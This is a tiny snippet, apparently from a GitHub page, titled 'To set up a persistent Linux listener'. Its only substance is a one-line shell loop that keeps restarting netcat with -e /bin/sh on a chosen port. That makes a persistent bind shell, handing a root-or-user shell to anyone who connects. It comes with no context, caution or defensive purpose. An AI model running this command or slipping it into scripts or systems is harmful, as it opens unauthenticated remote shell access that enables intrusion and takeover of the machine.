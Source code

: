 #### To set up a persistent Linux listener
```
while [ 1 ]; do echo "Started"; nc -lnp [port] -e /bin/sh; done
```